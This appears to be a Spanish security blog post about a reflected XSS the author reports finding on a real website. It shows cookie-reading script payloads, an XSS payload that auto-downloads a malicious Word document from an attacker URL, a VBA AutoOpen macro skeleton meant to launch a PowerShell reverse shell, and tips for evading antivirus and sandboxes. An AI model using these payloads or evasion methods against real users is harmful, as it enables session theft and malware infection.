 ```yaml
---
layout: post
title: Simple XSS reflejado en un entorno real
author: c4rta
date: 2023-06-28
##categories: [Maquinas, HackTheBox]
tags: [XSS]
image: 
  path: /assets/img/simple_xss/waifu.gif
---
```


{:.lead}

**Este no es ningun writeup, pero te voy a mostrar como encontre de casualidad una vulnerabilidad ```XSS reflejado``` en un sitio web real, cabe recalcar que la vulnerabilidad ya la reporte, y no estoy promoviendo explotar vulnerabilidades en entornos reales, y simplemente te voy a dar la idea de algo que podria hacer alguien con malas intenciones, que este no es el caso, y espero que el tuyo tampoco**

## XSS reflejado

De acuerdo a port swigger se trata de:

> Surge cuando una aplicación recibe datos en una solicitud HTTP e incluye esos datos en la respuesta inmediata de forma no segura

Es decir que en un XSS reflejado los datos que mándamos por una petición HTTP se reflejan en la respuesta que da el servidor web hacia el cliente (navegador)

Cómo dice OWASP:

> El ataque se lleva a cabo a través de un único ciclo de solicitud/respuesta.

En este tipo de XSS el codigo no reside en la aplicacion web como tal y no se encuentra del lado del servidor, y regularmente un atacante puede incrustar su payload malicioso en la URL generada y enviarselo a la victima, obvio se usa ingenieria social y phishing para que sea mas creible

## Identificando el XSS

> Evidentemente voy se censurar la URL

**¿Como me di cuenta que era un XSS?**

Fue muy random, originalmente yo solo queria buscar una noticia, entonces use su barra de busqueda para encontrar lo que queria, cuando busque por un termino me di cuenta de la forma tan peculiar de la URL y como se mostraban los datos en la pagina, mira:

![](/assets/img/simple_xss/1.png)

Vean como cuando se realiza una busqueda, te manda a la ruta ```/buscar/``` la cual tiene un parametro de consulta el cual es la ```q```, como se ve en ```?q=c4rta```, asi que el parametro ```q``` es utilizado para especificar el termino que se quiere buscar, y del lado de la pagina web, el termino que busque se refleja en la pagina web

![](/assets/img/simple_xss/2.png)

Esto ya estaba curioso, asi que decidi mostrar el codigo fuente de la pagina cuando se realiza la busqueda, y por suerte encontre la funcion que realiza la busqueda

![](/assets/img/simple_xss/3_000.png)

Primero con:

```js
var searchString = document.getElementById('searchtextsimple').value;
```
Lo que esta haciendo es crear una variable llamada ```searchString``` la cual va a contener el valor del atributo ```value``` del elemento con el id ```searchtextsimple```, y ese elemento con el id es este:

```html
<input id="searchtextsimple" type="text" name="q" class="form-control" placeholder="Buscar" value="c4rta"></input>
```

Despues en el JS tenemos que nuestro input el cual esta guardado en ```searchString``` se le concatena sin ningun tipo de procesamiento ni sanitizacion a la URL a tra vez del parametro ```q```:

```js
var url = "https://<URL>/barebone/wf.template/config.default.master.withgroupcount?q=" + encodeURI(searchString);
```

Y por ultimo carga la URL para mostrarla en la web:

```js
$(".results-group.parent").load(url);
```

Entonces tenemos que nuestro input se guarda en al atributo ```value``` de  la etiqueta ```<input>``` y despues se extrae y se concatena directamente en la URL para luego ser interpretado por el sitio web, la vulnerabilidad es obvia, al yo tener control total de lo que quiero buscar y este sera interpretado, entonces puedo probar por XSS a ver si interpreta codigo de JS, ahora le ingresare esto como input:

```js
<script>alert("Prueba XSS")</script>
```

Y vean como si nos interpreta el JS y ya nos dimos cuenta que tenemos un XSS reflejado

![](/assets/img/simple_xss/4.png)

Y en la URL se incrusto el codigo de XSS

![](/assets/img/simple_xss/5.png)

Podria usar otro payload para obtener las cookies, y curiosamente este sitio web tiene un monton

```js
<script>alert(document.cookie)</script>
```
<center><img src="/assets/img/simple_xss/6.png" width=290px height=200px></center><br>

Evidentemente censure todo por que sale mi cookie de sesion asi como otras muchas, y es posible que hayas pensado que este XSS una vez teniendo la cookie de sesion podria conducir a un CSRF/XSRF, y es correcto mientras sea vulnerable a ello. pero este vez vamos a ir mas alla, por que este XSS lo vamos combinar con malware, mas en concreto algo que se le conoce como ```MalDoc```

## MalDoc

MalDoc viene de Malicious Document, y lo que podria hacer ahora es crear una macro en VBS la cual vamos a incrustar en un docx, donde la macro se ejecutara automaticamente al abrirse el documento, y vamos a aprovechar el XSS para crear un payload que al entrar a la URL vulnerable a XSS, se descargue automaticamente el documento de una URL creada por el atacante, el payload es el siguiente:

```js
<script> 
    var link = document.createElement('a');
    link.href = 'URL:8080/MalDoc.docx';
    link.download = 'MalDoc.docx';
    link.click();
</script>
```

Basicamente el escenario seria que nosotros como atacantes le mandemos a la victima la URL del sitio vulnerable con el payload, la victima abra la URL, se descargue automaticamente el docx, se redireccione al sitio original de la pagina vulnerable, la victima abra el documento que contiene una macro, la macro se ejecute y ejecuta un comando que podria ser una reverse shell

Esto pasaria si la victima abre el link con el payload:

![](/assets/img/simple_xss/7.png)

Vean como la URL tiene el payload, y el entrar al link, se descargar automaticamente el documento del sitio web del atacante, en este caso, es un servidor web que cree con python y que tiene mi IPv4.

Y entonces al abrirlo se deberia de ejecutar la macro con la reverse shell, pero ¿Como se crea la macro?, bueno, el msfvenom ya tiene modulos para crear un MalDoc y una macro maliciosa, pero estamos aprendiendo, hay que hacerlo manual, simplemente de voy a dar la idea, no lo voy a poner a prueba.

Podriamos crear un archivo VBS de esta manera:

```vb
Sub AutoOpen()
Comando_Ps = "el tipico oneliner de powershell"

Dim Shell As Object
Set Shell = CreateObject("Wscript.Shell")
Shell.Run (Comando_Ps)

End Sub
```

Basicamente lo que va a hacer es ejecutar un comando de powershell que se declare en la variable ```Comando_Ps``` a tra vez de un objeto ```Wscript.Shell```

Y ahora para incrustarla en el docuemento se puede hacer uso de ```Microsoft Visual Basic for Applications``` y guardar el documento con la macro.

Y seguramente diras: "Eso no evade ningun antivirus, y el defender lo va a detectar", y en efecto, asi que te dare unos tips

- Usa Invoke-Obfuscation
- Usa procesos VMI
- Usa StrRerverse() para agregar un poco mas de ofuscacion
- Usa WMI Win32_PingStatus para evadir sandboxes

(Estas tecnicas que acabe de mencionar, como lo de MalDoc con la macro y las tecnicas para evadir antivirus pienso dedicarles un post aparte)

> Recuerda que la vulnerabilidad ya esta reportada, y no estoy promoviendo la creacion de malware ni tampoco el explotar vulnerabilidades sin el permisos de otros, es meramente educativo e informativo.

Eso ha sido todo, gracias por leer ❤